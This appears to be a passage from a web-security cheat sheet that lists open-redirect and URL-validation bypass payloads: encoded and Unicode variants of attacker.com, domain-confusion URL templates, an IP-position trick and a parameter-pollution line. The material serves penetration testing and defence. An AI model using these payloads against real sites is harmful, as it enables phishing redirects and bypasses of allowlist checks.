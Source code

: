 ```html
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ

```
* **Domain Confusion**
```html
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
https://{domain}@attacker.com
https://{domain}.attacker.com
https://{domain}%6D@attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
https://attacker.com#{domain}
https://attacker.com@{domain}
https://attacker.com#@{domain}
https://attacker.com%23@{domain}
https://attacker.com%00{domain}
https://attacker.com%0A{domain}
https://attacker.com?{domain}
https://attacker.com///{domain}
https://attacker.com\{domain}/
https://attacker.com;https://{domain}
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/
https://www.victim.com(\u2044)some(\u2044)path(\u2044)(\u0294)some=param(\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com

```
